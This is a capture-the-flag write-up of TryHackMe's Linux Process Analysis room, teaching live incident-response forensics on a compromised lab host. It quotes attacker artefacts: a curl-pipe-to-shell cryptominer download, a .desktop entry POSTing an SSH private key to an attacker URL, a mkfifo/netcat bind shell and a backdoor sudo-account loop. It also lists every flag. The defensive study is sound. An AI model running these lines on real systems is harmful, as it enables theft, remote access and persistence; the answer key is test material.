










# Linux Process Analysis

| Field | Details |
|-------|---------|
| **Room** | Linux Process Analysis |
| **Platform** | TryHackMe |
| **Path** | Advanced Endpoint Investigations |
| **Module** | Linux Endpoint Investigation |
| **Difficulty** | Easy |
| **Category** | Digital Forensics / Incident Response |
| **Room Link** | [tryhackme.com/room/linuxprocessanalysis](https://tryhackme.com/room/linuxprocessanalysis) |
| **Author** | [OPT4RUN](https://tryhackme.com/p/OPT4RUN) |

---

## Overview

This room focuses on live forensic analysis of a suspected Linux breach, specifically targeting the investigation of running processes, scheduled tasks (cronjobs), system services, autostart scripts, and application artefacts. The scenario continues from the Linux File System Analysis room, again working on a Penguin Corp workstation.

From a blue team perspective, these components are prime real estate for attackers looking to establish persistence, escalate privileges, or maintain backdoor access. Understanding how to enumerate and analyse each layer — from a suspicious `nc` listener buried under a cronjob, to a rogue systemd service re-creating a backdoor user every 60 seconds — is core IR tradecraft on Linux systems.

---

## Task 1 — Introduction

This task outlines the room's objectives: performing live forensic analysis on Linux processes, services, and scripts; identifying common artefacts and log mechanisms; and hunting malicious configurations in a hands-on IR scenario. No questions.

---

## Task 2 — Investigation Setup

The scenario places us on an isolated Penguin Corp workstation during a suspected active breach. Before touching anything, we establish a clean toolset by pointing `PATH` and `LD_LIBRARY_PATH` at a mounted USB containing known-good binaries and libraries from a clean Debian installation (`/mnt/usb`). This mitigates the risk of executing trojanised system utilities.

```bash
export PATH=/mnt/usb/bin:/mnt/usb/sbin
export LD_LIBRARY_PATH=/mnt/usb/lib:/mnt/usb/lib64
```

> 💡 **Tip:** On a real engagement, this step is non-negotiable on a suspected compromised host. Attackers with root access can replace core utilities (`ls`, `ps`, `find`) with malicious variants to hide their tracks or harm investigators.



**Q: After updating the PATH and LD_LIBRARY_PATH environment variables, run the command `check-env`. What is the flag that is returned in the output?**
```
THM{8c860435f00c943c21f6b6e0f1b2f854}
```

---

## Task 3 — Processes

### Enumerating Processes

Linux processes form parent-child hierarchies tracked via PID and PPID. Key tools for process forensics:

| Tool | Purpose |
|------|---------|
| `ps` | Snapshot of running processes |
| `lsof` | Lists open files and associated processes |
| `pstree` | Visual tree of process parent-child relationships |
| `top` | Real-time, continuously updated process view |

The `ps -eFH` flag combination is the standard for broad enumeration — all processes (`-e`), extra full format (`-F`), and hierarchical output (`-H`). Filtering by user (`ps -u janice`) quickly scopes down to a target account.

### Identifying the Bind Shell

Running `ps -eFH` on this system reveals several suspicious processes under the `janice` user:

```
janice  773  ...  /bin/sh -c /home/janice/abzkd83o4jakxld.sh
janice  775  ...  /bin/bash /home/janice/abzkd83o4jakxld.sh
janice  781  ...  cat /tmp/f
janice  782  ...  /bin/sh -i
janice  783  ...  nc -l 0.0.0.0 4444
```

`nc -l 0.0.0.0 4444` is a classic bind shell — Netcat listening on all interfaces on port 4444, awaiting an inbound connection that will receive shell access. The `cat /tmp/f` and `/bin/sh -i` processes alongside it confirm a named pipe (`/tmp/f`) is being used to wire up bidirectional I/O — the standard bind shell one-liner pattern.

```bash
ls -l /tmp/f
# prw-rw-r-- 1 janice janice 0 Mar 13 15:54 /tmp/f
# 'p' file type = named pipe (FIFO)
```

### Tracing the Process Tree

Using `pstree -p -s <PID>` on the parent process reveals the full chain:

```
systemd(1)───cron(706)───cron(769)───sh(773)───abzkd83o4jakxld(775)─┬─cat(781)
                                                                       ├─nc(783)
                                                                       └─sh(782)
```

The bind shell was spawned by a cronjob running `abzkd83o4jakxld.sh` from Janice's home directory. Inspecting the script confirms the bind shell one-liner with a lock file mechanism to prevent multiple simultaneous instances.

### Confirming with lsof

`lsof -p <nc PID>` on the Netcat process confirms the FIFO named pipes (`/tmp/f`) and the TCP listener on port 4444:

```
nc  783 janice  1w  FIFO  202,1  0t0  3437 /tmp/f
nc  783 janice  3u  IPv4  28400  0t0  TCP  *:4444 (LISTEN)
```

> 🔴 **Malware Relevance:** Named pipes are a common IPC primitive in Linux bind/reverse shell one-liners. The pattern `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ...` is one of the most frequently seen persistence/access techniques in the wild.



**Q: Which command lists all open files and the processes that opened them?**
```
lsof
```

**Q: Use pstree to list out the process hierarchies. What is the name of the nc process's parent?**
```
abzkd83o4jakxld
```

---

## Task 4 — Cronjobs

### Cron Configuration Locations

| Path | Scope |
|------|-------|
| `/etc/crontab` | System-wide; includes user field |
| `/etc/cron.hourly/`, `/etc/cron.daily/`, etc. | Drop-in system cronjobs by interval |
| `/etc/cron.d/` | Custom system cronjobs |
| `/var/spool/cron/crontabs/<user>` | Per-user crontabs |

### System-Level Findings

`/etc/crontab` contains a suspicious entry:

```
*/5 * * * * root /var/tmp/backup
```

`/var/tmp` is world-writable — any user can modify or replace the `backup` binary being executed as root every 5 minutes. Inspecting the script reveals it performs a legitimate-looking tar backup, but with an appended command:

```bash
tar -czf web_backup.tar.gz /var/www/html && curl -sSL http://h4x0rcr7pt.thm/install-xmrig.sh | sh
```

The appended `curl | sh` downloads and executes an XMRig cryptominer installer from a remote server — a common living-off-the-land tactic to abuse already-running privileged cronjobs.

Checking `/etc/cron.hourly/` reveals a `beacon` script — worth investigating for C2 communication.

### User-Level Findings

Listing `/var/spool/cron/crontabs/` with sudo shows crontab files for `bob`, `elijah`, `janice`, `root`, and `ubuntu`. Using a one-liner to loop all users:

```bash
sudo bash -c 'for user in $(cut -f1 -d: /etc/passwd); do entries=$(crontab -u $user -l 2>/dev/null | grep -v "^#"); if [ -n "$entries" ]; then echo "$user: Crontab entry found!"; echo "$entries"; echo; fi; done'
```

This surfaces Janice's bind shell cronjob (`* * * * *` — runs every minute) and Bob's entries, including a suspicious `/var/tmp/findme.sh`.

### Real-Time Monitoring with pspy64

`pspy64` monitors process executions in real time without requiring root, reading directly from `/proc`. Letting it run for a few minutes captures the cronjob-triggered execution of `abzkd83o4jakxld.sh` and reveals a base64-encoded command being echoed every 15 seconds.

> 💡 **Tip:** `pspy` is invaluable for catching short-lived processes that vanish before `ps` snapshots can catch them — particularly useful for identifying cronjob-spawned processes or attacker cleanup scripts.







**Q: Search around the system for suspicious system-level cronjob entries. What is the full URL of the C2 server?**
```
http://c2.intelligent-software.thm:8310/beacon
```

**Q: List the user-level cronjobs in the system. What is the hidden flag in one of the scripts?**
```
THM{4682786cf2d92f01c4d30a2bbf4621f7}
```

**Q: Use pspy64 to monitor executions occurring through the system. What is the decoded flag value that is echoed every 15 seconds?**
```
THM{851a981445dbfb9485c3771510a53568}
```

---

## Task 5 — Services

### Enumerating Running Services

`systemctl list-units --type=service --state=running` lists all active services. Scanning the output reveals `b4ckd00rftw.service` — a non-standard service name that immediately warrants investigation.

### Analysing the Backdoor Service

`systemctl status b4ckd00rftw.service` returns:

- **Description:** Backdoor Service
- **ExecStart:** `/usr/local/bin/b4ckd00rftw.sh`
- **State:** Active (running)
- **CGroup processes:** the script itself + a `sleep 60` child

Inspecting the script:

```bash
while true; do
    sudo useradd -m -p $(openssl passwd -1 Password123!) b4ckd00rftw
    sudo usermod -aG sudo b4ckd00rftw
    sleep 60
done
```

Every 60 seconds, the service attempts to create a sudoer account named `b4ckd00rftw` with a known password. Even if responders delete the account, it will be recreated within a minute. The unit file at `/etc/systemd/system/b4ckd00rftw.service` has `Restart=always`, meaning systemd will restart the service if it dies.

> 🔴 **Malware Relevance:** Persistent backdoor account creation via a service is a textbook post-exploitation persistence technique. The `Restart=always` directive in the unit file is a strong indicator of intentional persistence — legitimate services rarely need unconditional restart behaviour.

### Service Logs via journalctl

`journalctl -f -u b4ckd00rftw.service` tails the service logs in real time, showing each `useradd` and `usermod` call along with their timestamps — and a flag embedded in the output.





**Q: List all running services on the system. What is the flag you discover in the backdoor service's description?**
```
THM{4922066dc6494e8d4d507eef2205c262}
```

**Q: View the journalctl logs associated with the backdoor service. What is the flag you discover?**
```
THM{053c12e620acea8a77b4bdcba578ca19}
```

---

## Task 6 — Autostart Scripts

### Autostart Script Locations

| Type | Common Paths |
|------|-------------|
| System-wide | `/etc/init.d/`, `/etc/systemd/system/` |
| User-specific | `~/.config/autostart/` (`.desktop` files) |
| Shell init | `~/.profile`, `~/.bash_history` |
| SSH | `~/.ssh/authorized_keys`, `~/.ssh/id_rsa` |
| MOTD | `/etc/update-motd.d/`, `/usr/lib/update-notifier/` |

### User Autostart Investigation

Listing all user autostart directories:

```bash
ls -a /home/*/.config/autostart
```

Returns entries for `eduardo` (`dev.desktop`) and `janice` (`keygrabber.desktop`). Janice's entry is immediately suspicious:

```ini
[Desktop Entry]
Type=Application
Name=Standard Desktop Configuration (DO NOT MODIFY)
Exec=/bin/bash -c "curl -X POST -d '/home/janice/.ssh/id_rsa' http://aabab.best-it-services.thm/id_rsa"
```

On every desktop login, this silently exfiltrates Janice's private SSH key (`id_rsa`) to an attacker-controlled endpoint. The misleading `Name` field (`Standard Desktop Configuration (DO NOT MODIFY)`) is a social engineering tactic to deter manual inspection.

> 🔴 **Malware Relevance:** Autostart `.desktop` files are a stealthy persistence mechanism in desktop Linux environments. They execute at user login rather than at fixed intervals, making them harder to catch with cron-focused tooling. SSH key exfiltration enables persistent, password-free remote access even after credentials are rotated.



**Q: What is the full URL that receives Janice's private SSH key on system startup?**
```
http://aabab.best-it-services.thm/id_rsa
```

**Q: Identify and investigate the remaining .desktop files on the system. What is the command that executes with the Show Network Interfaces autostart script?**
```
ifconfig
```

---

## Task 7 — Application Artefacts

### Vim Artefacts

Vim writes a `.viminfo` file to the user's home directory, recording command-line history, search patterns, register contents, and more. Finding all instances:

```bash
find /home/ -type f -name ".viminfo" 2>/dev/null
```

Janice's `.viminfo` contains a flag embedded in the Vim search history — confirming the attacker (or Janice) performed Vim-based activity worth recording.

### Browser Artefacts with Dumpzilla

Firefox stores profile data under `~/.mozilla/firefox/`. Two user profiles are found: `ubuntu` and `eduardo`. Eduardo's active profile (`niijyovp.default-release`) is analysed using Dumpzilla:

```bash
sudo python3 /home/investigator/dumpzilla.py /home/eduardo/.mozilla/firefox/niijyovp.default-release --Summary --Verbosity CRITICAL
```

The profile contains 14 history entries, 34 cookies, 10 bookmarks, and 1 download. Extracting bookmarks (`--Bookmarks`) surfaces a flag in one of the entries.

> 💡 **Tip:** Browser artefacts are high-value targets in insider threat and social engineering investigations. Cookies can enable session hijacking, download logs reveal what was pulled from the network, and history can confirm contact with C2 infrastructure or data exfiltration endpoints.





**Q: Analyse Janice's `.viminfo` log. What flag do you find within the Vim search history?**
```
THM{4a8fd984228d89999342d189e6b916de}
```

**Q: Use DumpZilla to investigate Eduardo's Firefox bookmarks. What flag do you find in one of the entries?**
```
THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
```

---

## Task 8 — Conclusion

No questions. The room wraps up and points to further rooms in the module covering additional live forensics areas on Unix-based systems.

---

## Key Takeaways

- **Use trusted binaries first** — always redirect `PATH` and `LD_LIBRARY_PATH` to a clean source before investigating a potentially compromised host.
- **`ps -eFH` + `pstree`** is the core process enumeration combo — get the full picture, then trace parent-child chains to find the origin of suspicious processes.
- **Named pipes (`mkfifo`) + `nc`** is the canonical Linux bind shell one-liner pattern; seeing `cat /tmp/f`, `/bin/sh -i`, and `nc -l` as siblings in a process tree is a strong IOC.
- **`/var/tmp` is world-writable** — binaries executed as root from this directory are a critical misconfiguration / persistence risk.
- **Rogue systemd services** with `Restart=always` and `WantedBy=multi-user.target` will survive reboots and auto-restart — both unit file and binary must be removed before remediation is complete.
- **`.desktop` autostart files** are an under-watched persistence vector in desktop environments; always check `~/.config/autostart/` for all users.
- **Application artefacts** (`.viminfo`, browser profiles, SSH directories) can reveal attacker tooling, exfiltrated data, and C2 contact even after active processes are killed.
- **`pspy64`** is essential for catching short-lived processes and cronjob-triggered executions that `ps` snapshots will miss.

---

*Write-up by [OPT4RUN](https://tryhackme.com/p/OPT4RUN)*